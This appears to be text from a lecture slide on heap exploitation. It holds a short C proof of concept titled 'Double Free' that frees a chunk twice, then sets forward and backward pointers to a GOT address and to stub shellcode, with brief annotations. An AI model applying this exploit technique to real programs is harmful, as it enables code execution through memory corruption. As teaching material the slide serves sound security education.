

bin
…
GOT
Forward pointer
Backward pointer
shellcode
…
# Double Free
static char *GOT_LOCATION = (char *)0x0804c98c;
static char shellcode[] = "\xeb\x0cjump12chars_\x90\x90\x90\x90\x90\x90\x90\x90"
int main(void){
    int size = sizeof(shellcode);
    void *shellcode_location;
    void *first, *second, *third, *fourth, *fifth, *sixth, *seventh;
    shellcode_location = (void *)malloc(size);
    strcpy(shellcode_location, shellcode);
    first = (void *)malloc(256);
    second = (void *)malloc(256); //avoid the first chunk from being consolidated
    third = (void *)malloc(256);
    fourth = (void *)malloc(256); //avoid the third chunk from being consolidated
    free(first); // put into cache bin
    free(third); // put into cache bin
    fifth = (void *)malloc(128); //split off from the third chunk, put first into bin
    free(first);
    sixth = (void *)malloc(256);
    *((void **)(sixth+0))=(void *)(GOT_LOCATION-12);
    *((void **)(sixth+4))=(void *)shellcode_location;
    seventh = (void *)malloc(256);
    strcpy(fifth, "something");
    return 0;
}

Free first twice, allocated to sixth

Assign FP and BP

Seventh points to first
17